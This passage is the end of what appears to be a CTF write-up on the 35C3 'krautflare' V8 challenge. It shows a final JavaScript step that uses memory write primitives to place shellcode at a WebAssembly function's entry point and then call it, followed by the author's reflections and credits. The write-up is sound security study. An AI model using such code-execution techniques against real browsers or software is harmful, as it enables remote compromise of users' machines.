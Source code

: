 Once we have the entry point address, we can just write our shellcode to it and call the function:

```javascript
let shellcode = [0xcc, 0x48, 0xc7, 0xc0, 0x37, 0x13, 0x00, 0x00];
prims.write(code_addr, shellcode);
f();
```

![Code execution achieved](/assets/img/35c3-krautflare-rce.png)

What a beautiful sight.

### Conclusion

This was the hardest bug I've ever triggered.
The exploit itself was pretty standard (about the last part, I haven't seen WebAssembly publicly used before, but I'm sure others know about it), but fooling the typer was definitely an adventure.
I walk away with an understanding of V8's internals that, while still limited, is orders of magnitude better than when I started.
I hope you enjoyed reading through this, even though it's fairly long.
And again, congrats to [@_tsuro](https://twitter.com/_tsuro) for finding and exploiting this bug for the first time: that was one hell of a job!